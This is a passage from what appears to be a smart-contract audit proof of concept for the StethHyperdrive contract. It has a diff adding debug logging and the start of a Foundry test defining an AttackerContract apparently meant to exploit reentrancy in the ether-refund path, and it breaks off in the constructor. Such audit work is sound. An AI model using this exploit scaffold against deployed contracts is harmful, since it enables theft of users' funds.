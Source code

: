 Apply the following code diff for a POC:

```diff
diff --git a/contracts/src/instances/StethHyperdrive.sol b/contracts/src/instances/StethHyperdrive.sol
index 517bc81..3a50ac7 100644
--- a/contracts/src/instances/StethHyperdrive.sol
+++ b/contracts/src/instances/StethHyperdrive.sol
@@ -7,6 +7,7 @@ import { ILido } from "../interfaces/ILido.sol";
 import { IWETH } from "../interfaces/IWETH.sol";
 import { Errors } from "../libraries/Errors.sol";
 import { FixedPointMath } from "../libraries/FixedPointMath.sol";
+import "forge-std/console.sol";
 
 /// @author DELV
 /// @title StethHyperdrive
@@ -69,6 +70,7 @@ contract StethHyperdrive is Hyperdrive {
                 revert Errors.TransferFailed();
             }
             if (msg.value > _amount) {
+                console.log("_pricePerShare() 1: %s", _pricePerShare());
                 // Return excess ether to the user.
                 (bool success, ) = payable(msg.sender).call{
                     value: msg.value - _amount
@@ -86,6 +88,7 @@ contract StethHyperdrive is Hyperdrive {
 
             // Calculate the share price.
             sharePrice = _pricePerShare();
+            console.log("_pricePerShare() 2: %s", _pricePerShare());
         } else {
             // Ensure that the user didn't send ether to the contract.
             if (msg.value > 0) {
@@ -105,7 +108,11 @@ contract StethHyperdrive is Hyperdrive {
             // Calculate the share price and the amount of shares deposited.
             sharePrice = _pricePerShare();
             shares = _amount.divDown(sharePrice);
+                console.log("_pricePerShare() 3: %s", _pricePerShare());
+                console.log("shares() 3: %s", shares);
+
         }
+         console.log("return (shares = %s, sharePrice = %s)", shares, sharePrice);
 
         return (shares, sharePrice);
     }

diff --git a/test/integrations/StethHyperdrive.t.sol b/test/integrations/StethHyperdrive.t.sol
index 4d346e3..7407bda 100644
--- a/test/integrations/StethHyperdrive.t.sol
+++ b/test/integrations/StethHyperdrive.t.sol
@@ -16,6 +16,60 @@ import { HyperdriveMath } from "contracts/src/libraries/HyperdriveMath.sol";
 import { HyperdriveTest } from "test/utils/HyperdriveTest.sol";
 import { HyperdriveUtils } from "test/utils/HyperdriveUtils.sol";
 import { Lib } from "test/utils/Lib.sol";
+import "forge-std/console.sol";
+
+contract AttackerContract {
+    StethHyperdrive public instance;
+    uint256 reentrancyCounter;
+    bool shouldAttack = true;
+
+    constructor(address _instance) {
+        instance = StethHyperdrive(_instance);
+        console.log(
+            "\n# Deployed Attacker contract with instance: %s #\n",
```